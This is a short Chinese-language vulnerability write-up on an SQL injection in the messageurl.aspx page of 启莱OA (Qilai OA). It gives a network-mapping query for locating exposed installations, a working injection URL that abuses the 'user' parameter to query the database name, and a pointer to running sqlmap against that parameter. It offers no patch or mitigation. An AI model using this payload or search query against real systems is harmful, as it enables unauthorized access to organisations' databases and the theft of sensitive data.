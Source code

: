 # 启莱OA messageurl.aspx SQL注入漏洞

## 漏洞描述

启莱OA messageurl.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## 网络测绘

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

![qilai-2-1](./images/qilai-2-1.png)

存在SQL注入的文件为 messageurl.aspx

```plain
http://xxx.xxx.xxx.xxx/client/messageurl.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-2-2](./images/qilai-2-2.png)

使用SQLmap对参数 user 进行注入

![qilai-2-3](./images/qilai-2-3.png)